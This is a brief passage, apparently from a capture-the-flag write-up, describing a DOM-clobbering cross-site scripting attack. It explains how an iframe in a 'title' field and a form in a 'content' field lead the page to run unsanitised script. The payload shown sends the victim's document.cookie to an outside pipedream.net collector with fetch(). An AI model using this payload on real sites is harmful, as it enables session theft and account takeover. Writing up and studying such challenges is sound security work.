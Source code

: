     ![image-20210731123321512](images/image-20210731123321512.png)

  - Note that the content is appended in a HTML element with id `tk`. We can simply inject a HTML element in the `title` field containing the `id` and append the unsanitized payload in the `content` field there. Note, use an iframe tag since the XSS `content` payload is appended in the `srcdoc` attribute/

    ```
    title=<iframe id="tk"></iframe><script>
    content=test<form id="rp"><input name="ownerDocument"/><script>fetch("https://enxju6dmctwrg.x.pipedream.net/"+document.cookie);</script></form>
    ```

